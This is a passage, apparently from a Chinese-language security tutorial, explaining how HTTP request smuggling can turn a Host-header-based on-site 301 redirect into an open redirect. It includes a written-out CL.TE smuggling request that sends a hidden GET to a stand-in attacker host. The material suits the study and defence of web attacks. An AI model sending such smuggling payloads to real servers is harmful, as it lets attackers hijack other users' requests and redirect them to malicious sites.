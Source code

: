 [![](assets/1698897445-fdfe2f44aaf9c9560c24cef93ac97378.png)](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191125001149.png)

### Turn An On-Site Redirect Into An Open Redirect

这种攻击场景是在目标在使用 30x 跳转的时候，使用了 Host 头进行跳转，例如在 Apache & IIS 服务器上，一个 uri 最后不带 / 的请求会被 30x 导向带 / 的地址，例如发送以下请求：

```bash
GET /home HTTP/1.1
Host: normal-website.com
```

我们会得到 Response :

```bash
HTTP/1.1 301 Moved Permanently
Location: https://normal-website.com/home/
```

看起来没什么危害，但是如果我们配合 HTTP Smuggling 就会有问题了，例如：

```bash
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
```
